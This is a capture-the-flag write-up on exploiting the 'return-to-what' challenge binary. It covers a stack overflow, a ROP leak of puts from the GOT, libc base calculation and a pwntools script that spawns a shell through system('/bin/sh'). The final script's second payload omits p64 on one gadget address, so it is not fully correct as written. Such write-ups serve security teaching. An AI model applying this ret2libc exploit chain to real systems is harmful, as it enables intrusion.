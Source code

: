 # return-to-what
this challenge was quite cool to complete, although i completed it locally on my machine (Arch Linux 5.16.4-arch1-1) instead of the real target (a Ubuntu machine) although i will show at the end how to do this challenge on ubuntu using `libc-database`.
## Checking the binary
First things first, we want to check which linker/libraries are attached to this binary, to do so i will use the `ldd` command on our binary :
```
$ ldd ./challenge/return-to-what
		linux-vdso.so.1 (0x00007fff53558000)
		libc.so.6 => /usr/lib/libc.so.6 (0x00007fe8db8f4000)
		/lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fe8dbb04000)
```
In the preceding output, you can see that the binary uses `/usr/lib/libc.so.6`. Next let's check for the protections on this binary.
```
$ checksec --file challenge/return-to-what
[*] '/home/korenkovichski/Documents/CTF/DownunderCTF_2020/pwn/return-to-what/challenge/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Luckily for us the binary has no PIE which will make our life a LOT easier for determining libc offsets, since offsets will stay the same every time we run the binary.
## Finding a vulnerability
Now it's time to find where this program is vulnerable, in this case i didn't need a disassembler to find the vulnerable part, i just tried a cyclic pattern and the program directly crashed.
```
$ ./return-to-what <<<$(cyclic 200)
Today, we'll have a lesson in returns.
Where would you like to return to?
[1]    23700 segmentation fault (core dumped)  ./return-to-what <<< $(cyclic 200)
```
So i hopped in GDB and found the offset at which we overwrite the return address.
```
pwndbg> r <<<$(cyclic 200)
pwndbg> cyclic -l 0x6161616f
56
```
We know we need a padding of 56 bytes before we can start overwriting the return address and therefore gaining control of the program.
## Leak a function from .got table
Now we need a leak, since the challenge doesn't provide any libc files, our binary is using the default libc library at `/usr/lib/libc.so.6`, since it's the default library on my OS it is quite complete and contains the `puts` function which is the easiest one to use when trying to leak addresses, we will leak the `puts` function in the `.got table` and call `puts` through the `procedure linkage table`.
```py
from pwn import *

e = ELF("./challenge/return-to-what", checksec=False)
libc = ELF("/usr/lib/libc.so.6", checksec=False)

io = process(e.path)

context.binary = e
context.terminal = ["konsole", "-e"]

PADDING_BEFORE_RETADDR = 56

rop = ROP(e)
POP_RDI_RET = rop.find_gadget(["pop rdi", "ret"])[0]


PAYLOAD = [
	PADDING_BEFORE_RETADDR * b"A",
	p64(POP_RDI_RET),
	p64(e.got.puts),
	p64(e.plt.puts)
]

io.sendline(b"".join(PAYLOAD))

io.recvline()
io.recvline()
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
info(f"puts leak : {hex(leak)}")
io.interactive()
```
Running the script, proof that indeed we were able to leak the address of `puts` in the `global offset table`.
```bash
$ python3 leak.py
[+] Starting local process '/home/korenkovichski/Documents/CTF/DownunderCTF_2020/pwn/return-to-what/challenge/return-to-what': pid 24257
[*] Loaded 14 cached gadgets for './challenge/return-to-what'
[*] puts leak : 0x7f9664a92ab0
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
## Calculate libc address using leak
Our goal in this challenge is to end up calling `system("/bin/sh")` which will spawn us a shell, but manually calling system through an exploit is impossible if you don't know the actual address of system in memory.

We're a bit lucky here, PIE was disabled and therefore address will stay the same most of the time.

So time to calculate that offset, to do that we just need a simple substraction `"(current address of puts - it's offset in libc)"`, this simple operation should result in the base address of libc. We can add the following code to our script.
```py
info(f"offset of puts in libc : {hex(libc.symbols["puts"])}")
libc.address = leak - libc.symbols["puts"]
info(f"base address of libc : {hex(libc.address)}")
```
Now if we run the script again we can see the base address of libc was leaked properly !
```sh
python3 leak.py
[+] Starting local process '/home/korenkovichski/Documents/CTF/DownunderCTF_2020/pwn/return-to-what/challenge/return-to-what': pid 24399
[*] Loaded 14 cached gadgets for './challenge/return-to-what'
[*] puts leak : 0x7f123607aab0
[*] offset of puts in libc : 0x76ab0
[*] base address of libc : 0x7f1236004000
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
```
The outputs makes a lot of sense, libc address tend to end with a bunch of zeros.
## Catch Shell
Funniest part, time to catch shells... hehe. Now to make the exploit simpler, we will call the main function once again and therefore we will hit the vulnerable part of our program a second time where we will input another buffer overflow payload, but this time since we know the base address of libc we can just call `system("/bin/sh")`.

Here is the final exploit that i used to exploit and win this challenge.
```py
from pwn import *

e = ELF("./challenge/return-to-what", checksec=False)
libc = ELF("/usr/lib/libc.so.6", checksec=False)

io = process(e.path)

context.binary = e
context.terminal = ["konsole", "-e"]

PADDING_BEFORE_RETADDR = 56

rop = ROP(e)
POP_RDI_RET = rop.find_gadget(["pop rdi", "ret"])[0]


PAYLOAD = [
	PADDING_BEFORE_RETADDR * b"A",
	p64(POP_RDI_RET),
	p64(e.got.puts),
	p64(e.plt.puts),
	p64(e.sym.main)  # note this change
]

io.sendline(b"".join(PAYLOAD))

io.recvline()
io.recvline()
leak = u64(io.recvline().strip().ljust(8, b"\x00"))
info(f"puts leak : {hex(leak)}")

info(f"offset of puts in libc : {hex(libc.symbols["puts"])}")
libc.address = leak - libc.symbols["puts"]
info(f"base address of libc : {hex(libc.address)}")

SECOND_PAYLOAD = [
	b"A"*56,
	POP_RDI_RET,
	p64(next(libc.search(b"/bin/sh"))),
	p64(libc.sym["system"])
]

io.sendline(b"".join(SECOND_PAYLOAD))

io.interactive()
```
Running the preceding code locally with the right libc path should usually result in you obtaining a shell, however when the challenge is being ran on a remote ubuntu machine, we do not have access to the library.
## Finding the right library
Our binary is running on a remote system, ready to be pwned hehe. But we have a problem, we don't know what are the offsets in libc. What you can do is instead of leaking puts, you can leak other functions too in the .got table, then head up at https://libc.rip and search those offsets together, this shoud output you the correct libc version that you need to pwn.